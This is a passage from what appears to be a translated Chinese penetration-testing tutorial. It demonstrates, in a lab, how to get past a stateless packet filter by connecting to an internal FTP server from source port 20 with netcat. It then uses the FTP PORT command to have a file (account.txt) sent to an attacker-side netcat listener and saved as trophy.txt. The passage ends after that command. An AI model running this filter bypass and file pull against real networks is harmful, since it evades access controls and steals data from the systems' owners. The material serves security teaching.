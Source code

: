 您需要知道的主要一点是，FTP-port 命令通过使用逗号而不是我们通常使用的小数分隔 IP 地址来标识 IP 地址。

此外，它使用字节模式系统，端口以基本 256 格式表示。因此，要连接到端口`1024`上的 IP 地址`192.168.177.10`，命令如下：

```
port 192,168,177,10,4,0

```

细分为端口由*4x256=1024*表示。同样，当我们遇到常见的 FTP 协议时，最好知道这些类型的事情，并且它位于受弱过滤规则保护的 DMZ 中。

最好用一个例子来说明这一点。你需要一台机器作为过滤器；您可以使用本书前面创建的**Dynamips**机器或**IP 表**机器。然后，您需要一台机器作为运行 FTP 服务器的内部机器。在本书中，我们将使用 Windows7 机器，但它可以是任何能够运行 FTP 服务器的机器。然后，我们需要一台机器作为外部机器，从外部发送流量。您需要在过滤设备的两侧创建路由。此外，创建允许 FTP 流量和返回流量的规则。请记住，返回流量的源端口为 20。一旦构建了所需的体系结构，就只需要通过命令进行操作。我们将使用 Kali Linux 机器发送命令并运行`netcat`；我们将在受保护的机器上使用 3com FTP 服务器。

正如我们前面提到的，对于路由器和无状态过滤器，管理员通常允许协议（如 FTP）的返回流量，并且正如我们所示，我们可以利用这一点通过现有的过滤器。此外，我们可以利用我们对 FTP 行为的了解，以及它通过过滤器与 FTP 服务器交互时使用的命令。

一旦构建了环境，我们需要做的第一件事就是启动 FTP 服务器。一旦服务器启动，我们就需要使用源端口 20 提供的功能从 Kali Linux 机器连接到它。在 Kali Linux 上的终端窗口中，键入以下命令：

```
enter nc –p 20 <IP Address of the server> 21

```

这将连接到位于过滤设备内部的 FTP 服务器。以下屏幕截图显示了一个示例：

![Protocol research](graphics/477-1_11_4.jpg)

正如前面的屏幕截图所示，我们成功的一个很好的标志是我们从服务器上看到了横幅。当允许内部计算机连接到外部 FTP 服务器时，这是一种常见的配置，因为服务器将从源端口 20 发送数据。然后，允许此连接的规则在过滤设备中；因此，通过从这个端口发送数据，我们可以进入弱过滤器。我们使用内部的 FTP 服务器来演示这一点。我们可以选择机器上任何打开的端口来显示这一点。我们现在需要登录服务器，很可能会启用`anonymous`。因此，输入用户为`anonymous`，一旦看到用户的确认，输入密码为`password123`。

一旦您得到用户登录的确认，您可以输入`help`查看想要查看的命令。从可用的 FTP 命令中，我们想要使用的是`nlst`命令，它将为我们提供所处目录的列表。在 FTP 登录窗口中，输入`nlst`以列出目录。你成功了吗？答案是否定的！这是因为要使其工作，程序必须知道客户端正在侦听哪个端口，才能将数据发送到该端口。要进行设置，我们需要打开另一个窗口，以便获取连接返回的数据。当您打开另一个终端窗口时，可以对它们进行排列，以便可以同时看到这两个窗口。在新窗口中，输入以下命令：

```
nc –l –p 2048

```

这将在 Kali Linux 机器上打开一个端口，该端口将从服务器接收数据。一旦端口处于监听状态，我们需要告诉服务器将数据发送到哪个端口，我们使用`port`命令执行此操作，如下所示：

```
port <IP address separated by commas> 8,0 

```

这将通知服务器发送数据的端口为 2048。发送数据后，输入`nlst`命令。这将显示服务器上列出的目录。以下屏幕截图显示了一个示例：

![Protocol research](graphics/477-1_11_5.jpg)

正如前面的屏幕截图所示，我们有一个名为`account.txt`的文件，它位于服务器上。我们现在将使用 FTP 服务器传输文件，并将其发送给我们。我们希望将端口上接收到的数据输出到一个文件中；我们将使用输出重定向（`>`运算符来完成此操作。这个过程和以前一样。在带有`netcat`工具的窗口中，输入以下命令：

```
nc –l –p 2048 > trophy.txt.

```
